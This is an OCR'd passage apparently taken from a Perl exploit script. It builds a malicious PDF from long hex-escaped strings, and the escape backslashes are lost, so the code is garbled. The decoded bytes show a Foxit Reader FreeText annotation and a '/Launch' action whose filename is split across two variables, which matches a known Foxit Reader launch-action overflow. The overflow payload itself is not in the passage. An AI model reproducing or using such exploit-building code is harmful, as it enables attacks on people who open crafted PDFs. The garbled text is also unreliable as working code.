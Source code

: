          "x2Fx4Fx70x65x6Ex20x66x61x6Cx73x65x2Fx50x61x72x65x6Ex74x20x32x34x20x30x20x52x20x3Ex3Ex0Dx0Ax65x6E".
         "x64x6Fx62x6Ax0Dx0Ax32x34x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx53x75x62x74x79x70x65x2Fx46x72x65x65x54".
         "x65x78x74x2Fx52x65x63x74x5Bx20x32x38x35x20x37x39x34x20x35x34x31x20x38x32x37x5Dx2Fx46x20x34x2Fx41".
         "x50x20x31x39x20x30x20x52x20x2Fx46x6Fx78x69x74x54x61x67x20x32x33x20x30x20x52x20x2Fx50x20x31x20x30".
         "x20x52x20x2Fx50x6Fx70x75x70x20x32x35x20x30x20x52x20x2Fx46x4Ex28x48x65x6Cx76x65x74x69x63x61x29x2F".
         "x43x6Fx6Ex74x65x6Ex74x73x28x45x64x69x74x65x64x20x62x79x20x46x6Fx78x69x74x20x52x65x61x64x65x72x5C".
         "x72x43x6Fx70x79x72x69x67x68x74x5Cx28x43x5Cx29x20x62x79x20x46x6Fx78x69x74x20x53x6Fx66x74x77x61x72".
         "x65x20x43x6Fx6Dx70x61x6Ex79x2Cx32x30x30x35x2Dx32x30x30x38x5Cx72x46x6Fx72x20x45x76x61x6Cx75x61x74".
         "x69x6Fx6Ex20x4Fx6Ex6Cx79x2Ex5Cx72x29x2Fx42x4Bx43x20x36x35x35x33x35x2Fx51x20x30x2Fx44x41x28x2Fx5A".
         "x69x54x69x20x31x31x20x54x66x20x31x20x30x20x30x20x72x67x20x31x20x30x20x30x20x31x20x32x38x35x20x38".
         "x31x30x2Ex35x20x54x6Dx20x30x20x54x63x20x31x30x30x20x54x7Ax29x2Fx49x54x2Fx46x72x65x65x54x65x78x74".
         "x54x79x70x65x77x72x69x74x65x72x3Ex3Ex0Dx0Ax65x6Ex64x6Fx62x6Ax0Dx0Ax32x33x20x30x20x6Fx62x6Ax0Dx0A".
         "x3Cx3Cx2Fx54x65x78x74x4Dx61x74x72x69x78x5Bx20x31x20x30x20x30x20x31x20x32x38x35x20x38x31x30x2Ex35".
         "x5Dx2Fx4Cx69x63x65x6Ex73x65x28x45x76x61x6Cx75x61x74x69x6Fx6Ex29x2Fx4Dx65x6Ex64x65x72x46x6Cx61x67".
         "x28x45x76x61x6Cx75x61x74x69x6Fx6Ex2Cx41x4Ex4Ex4Fx54x29x2Fx46x6Fx6Ex74x4Ex61x6Dx65x28x48x65x6Cx76".
         "x65x74x69x63x61x29x2Fx46x6Fx6Ex74x53x69x7Ax65x20x31x31x2Fx54x65x78x74x28x45x64x69x74x65x64x20x62".
         "x79x20x46x6Fx78x69x74x20x52x65x61x64x65x72x5Cx72x43x6Fx70x79x72x69x67x68x74x5Cx28x43x5Cx29x20x62".
         "x79x20x46x6Fx78x69x74x20x53x6Fx66x74x77x61x72x65x20x43x6Fx6Dx70x61x6Ex79x2Cx32x30x30x35x2Dx32x30".
         "x30x38x5Cx72x46x6Fx72x20x45x76x61x6Cx75x61x74x69x6Fx6Ex20x4Fx6Ex6Cx79x2Ex5Cx72x29x2Fx43x68x61x72".
         "x43x6Fx6Cx6Fx72x20x32x35x35x2Fx43x68x61x72x53x70x61x63x65x20x30x2Fx4Cx69x6Ex65x46x65x65x64x20x30".
         "x2Fx48x6Fx72x7Ax53x63x61x6Cx65x20x31x30x30x2Fx4Fx72x69x67x69x6Ex58x20x32x38x35x2Fx4Fx72x69x67x69".
         "x6Ex59x20x38x31x36x2Fx62x43x68x61x6Ex67x65x42x6Fx78x20x30x2Fx42x6Fx78x57x69x64x74x68x20x32x35x36".
         "x3Ex3Ex0Dx0Ax65x6Ex64x6Fx62x6Ax0Dx0Ax32x32x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx4Dx79x46x6Fx6Ex74x20".
         "x31x38x20x30x20x52x20x3Ex3Ex0Dx0Ax65x6Ex64x6Fx62x6Ax0Dx0Ax32x31x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2F".
         "x46x6Fx6Ex74x20x32x32x20x30x20x52x20x3Ex3Ex0Dx0Ax65x6Ex64x6Fx62x6Ax0Dx0Ax32x30x20x30x20x6Fx62x6A".
         "x0Dx0Ax3Cx3Cx2Fx4Cx65x6Ex67x74x68x20x31x36x38x2Fx53x75x62x74x79x70x65x2Fx46x6Fx72x6Dx2Fx42x42x6F".
         "x78x5Bx20x32x38x35x20x37x39x34x20x35x34x31x20x38x32x37x5Dx2Fx52x65x73x6Fx75x72x63x65x73x20x32x31".
         "x20x30x20x52x20x2Fx46x69x6Cx74x65x72x2Fx46x6Cx61x74x65x44x65x63x6Fx64x65x3Ex3Ex73x74x72x65x61x6D".
         "x0Dx0Ax78x9Cx95x8DxCDx0Ex82x30x10x84xEFx7Dx8Ax3Dx42xA2xD8x16x88x78x15xE1x66x4CxB4x2Fx50x43xC1x1A".
         "xE8x92xA6xFExF4xEDx25x24x28x89x27xF6x30x99x99x6CxBExD9x0BxB2x39xFAx12x8Dx03xC6x40xD4x84x45x74x3C".
         "xA0x7FxC6x36x84xC1x90x81x01xCFxD2xA9xDDxEEx92xC9x8Ax8Ex7Cx9Fx79x12xC5x9Cx51x3Ax40x0Fx24x28x2AxED".
         "x54x05x57x0Fx25xBExB5x83xB3x92x95xB2x21x88xFBx02x24x8BxE7xC8x1Cx7Bx6Fx75x73x73x41x1ExFExC0x17xAC".
         "xDDx4Bx5Ax05x39x76xBDx34x7ExC5x29x4DxD7x83x64x0BxC7xF8x7CxABx44x0BxC5x53xB6x0FxE9x34x1Ax38x99xD6".
         "x47x23xAFx10xE4x03x4Ax14x4Cx32x0Dx0Ax65x6Ex64x73x74x72x65x61x6Dx0Dx0Ax65x6Ex64x6Fx62x6Ax0Dx0Ax31".
         "x39x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx4Ex20x32x30x20x30x20x52x20x3Ex3Ex0Dx0Ax65x6Ex64x6Fx62x6Ax0D".
         "x0Ax31x38x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx54x79x70x65x2Fx46x6Fx6Ex74x2Fx53x75x62x74x79x70x65x2F".
         "x54x79x70x65x31x2Fx42x61x73x65x46x6Fx6Ex74x2Fx48x65x6Cx76x65x74x69x63x61x2Fx45x6Ex63x6Fx64x69x6E".
         "x67x2Fx57x69x6Ex41x6Ex73x69x45x6Ex63x6Fx64x69x6Ex67x2Fx46x78x54x61x67x20x31x3Ex3Ex0Dx0Ax65x6Ex64".
         "x6Fx62x6Ax0Dx0Ax31x37x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx50x56x20x31x36x20x30x20x52x20x3Ex3Ex0Dx0A".
         "x65x6Ex64x6Fx62x6Ax0Dx0Ax31x36x20x30x20x6Fx62x6Ax0Dx0Ax3Cx3Cx2Fx54x79x70x65x2Fx41x63x74x69x6Fx6E".
         "x2Fx53x2Fx4Cx61x75x6Ex63x68x2Fx46x3Cx3Cx2Fx46x28x2Fx43x2F";
my $pdf_data2 = "x29x3Ex3Ex2Fx4Ex65x77x57x69x6Ex64x6Fx77x20x74x72x75x65x3Ex3Ex0Dx0Ax65x6Ex64x6Fx62x6Ax0Dx0Ax78x72".
         "x65x66x0Dx0Ax30x20x32x36x0Dx0Ax30x30x30x30x30x30x30x30x30x30x20x36x35x35x33x36x20x66x0Dx0Ax30x30".
         "x30x30x30x30x30x30x31x37x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30x30x31x39x37x20x30x30x30".
         "x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30x30x33x31x34x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30".
         "x30x33x33x36x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30x30x34x33x32x20x30x30x30x30x30x20x6E".
         "x0Dx0Ax30x30x30x30x30x30x30x34x36x38x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30x30x35x32x32".
         "x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30x30x36x31x39x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30".
         "x30x30x30x30x31x33x37x30x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30x31x31x34x37x20x30x30x30".
         "x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30x31x30x38x38x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30".
         "x31x30x31x35x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30x30x39x36x32x20x30x30x30x30x30x20x6E".
         "x0Dx0Ax30x30x30x30x30x30x30x38x37x32x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30x30x38x31x33".
         "x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30x32x39x38x34x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30".
         "x30x30x30x30x32x39x34x39x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30x32x38x34x39x20x30x30x30".
         "x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30x32x38x31x35x20x30x30x30x30x30x20x6Ex0Dx0Ax30x30x30x30x30x30".